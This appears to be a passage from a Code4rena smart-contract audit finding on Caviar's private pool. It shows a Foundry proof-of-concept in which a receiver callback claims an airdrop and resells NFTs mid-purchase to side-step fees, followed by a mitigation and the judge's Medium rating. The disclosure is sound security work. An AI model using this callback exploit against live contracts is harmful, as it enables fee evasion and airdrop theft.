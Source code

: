 ```solidity
    }
    assertEq(milady.balanceOf(address(privatePool)), 5, "Didn't mint 5 NFTs for some reason.");
}

function test_failBecauseOfDivisionBy0() public {

    for (uint256 i = 0; i < 5; i++) {
        tokenIds.push(i + 1);
    }

    (uint netInputAmount, uint feeAmount, uint protocolFeeAmount) = privatePool.buyQuote(5e18);

    shibaInu.approve(address(privatePool), netInputAmount);
    // @audit-info Trying to buy the 5 tokens present in the pool
    privatePool.buy(tokenIds, tokenWeights, proofs);
}

function onERC721Received(
    address operator,
    address from,
    uint256 tokenId,
    bytes calldata data
) external override returns (bytes4) {
    // @audit-info Claim airdrop for the specific NFT here
    airdrop.claim(tokenId);

    // @audit-info Selling the NFT here
    uint[] memory _tokenIds = new uint[](1);
    _tokenIds[0] = tokenId;

    milady.approve(address(privatePool), tokenId);
    (uint netInputAmount, uint feeAmount, uint protocolFeeAmount) = privatePool.sellQuote(1e18);
         
    privatePool.sell(_tokenIds, tokenWeights, proofs, stolenNftProofs);
    return bytes4(keccak256("onERC721Received(address,address,uint256,bytes)"));
}
```

### Tools Used

Foundry

### Recommended Mitigation Steps

Consider sending the NFTs after the funds have been received by the contract.

**[outdoteth (Caviar) acknowledged](https://github.com/code-423n4/2023-04-caviar-findings/issues/885)** 

**[Alex the Entreprenerd (judge) commented](https://github.com/code-423n4/2023-04-caviar-findings/issues/885#issuecomment-1529117611):**
 > The Warden has shown how, due to the handling of callbacks, a `buy` can be viewed as a flash-swap which allows the payer to pay after using the token, effectively allowing for a cheaper flashloan if fees are set in a certain way.
> 
> 
> Because the finding shows a way to possibly side-step fees, while maintaining the same functionality, I believe the most appropriate severity to be Medium.

